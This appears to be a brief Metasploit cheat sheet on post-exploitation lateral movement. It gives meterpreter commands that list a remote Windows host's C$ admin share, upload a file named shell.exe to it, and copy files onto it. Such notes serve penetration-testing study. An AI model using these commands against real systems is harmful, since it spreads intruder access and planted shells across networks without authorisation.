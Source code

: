 # Metasploit

Search Tag(s): #post-exploitation #lateral-movement #metasploit-framework #windows

## 01 - List Files and Directories

```
meterpreter > ls //<IP>/c$

meterpreter > ls \\\\<IP>\\c$
```

## 02 - Upload Files

```
meterpreter > upload /path/to/local/shell.exe //<IP>/c$/shell.exe

meterpreter > upload /path/to/local/shell.exe \\\\<IP>\\c$\\shell.exe
```

## 03 - Copy Files Remotely

```
meterpreter > cp file.txt //<IP>/C$/copied_file.txt

meterpreter > cp file.txt \\\\<IP>\\C$\\copied_file.txt
```
